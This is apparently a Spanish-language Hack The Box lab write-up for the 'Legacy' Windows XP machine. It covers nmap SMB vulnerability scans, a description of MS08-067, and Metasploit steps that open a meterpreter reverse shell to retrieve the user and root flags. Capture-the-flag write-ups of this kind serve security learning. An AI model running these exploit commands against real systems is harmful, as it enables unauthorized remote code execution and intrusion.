 ```yaml
---
{"dg-publish":true,"permalink":"/hack-the-box/maquinas/easy/legacy/","dgPassFrontmatter":true}
---
```


Empezamos haciendo un nmap a la maquina:

```
nmap -sCV -T5 10.10.10.4 -oN legacy_machine
```

![Pasted image 20250522172723.png](/img/user/Pasted%20image%2020250522172723.png)

Observamos que la maquina es un windows XP lo cual puede indicar que quiza es vulnerable a SMB, enumeramos:

```
nmap -p 445 --script smb-vuln* 10.10.10.4
```

![Pasted image 20250522173331.png](/img/user/Pasted%20image%2020250522173331.png)

Notamos que es vulnerable a CVE:CVE-2017-0143 ->EternalBlue y > **MS08-067: Microsoft Windows Server Service Vulnerability**

Descripcion: Esta vulnerabilidad critica del servicio de red de Windows (Server Service) que permite ejecucion remota de codigo (RCE) mediante paquetes especialmente creados enviados a traves del puerto 139 o 445 (SMB).

## Sistemas afectados:

- Windows XP
- Windows Server 2003
- Windows Vista
- Windows Server 2008 (versiones antiguas)
- Windows 2000

## Impacto

- Permite ejecucion remoda de codigo sin autenticacion.
- Fue ampliamente explotada por gusanos como Conficker.

Vamos a probar explotar esta vulnerabilidad con metasploit:

## Explotacion con Metasploit:

- use exploit/windows/smb/ms08_067_netapi
- set RHOST 10.10.10.4
- set PAYLOAD windows/meterpreter/reverse_tcp
- set LHOST 10.10.10.4
- run

![Pasted image 20250522174921.png](/img/user/Pasted%20image%2020250522174921.png)

Si queremos saber bajo que usuario se ejecuta el exploit potemos colocar en el **meterpreter> getuid**

![Pasted image 20250522175033.png](/img/user/Pasted%20image%2020250522175033.png)
Luego colocar un shell para ser mas interactivos y buscamos el user.txt y el root.txt

En este caso como estamos en Windows XP, los usuarios los encontramos en **dir C:\\Documents and Settings**

![Pasted image 20250522175409.png](/img/user/Pasted%20image%2020250522175409.png)

Vamos a john para el user.txt:

![Pasted image 20250522175504.png](/img/user/Pasted%20image%2020250522175504.png)

Vamos a administrator para el root.txt:

![Pasted image 20250522175546.png](/img/user/Pasted%20image%2020250522175546.png)

thanks.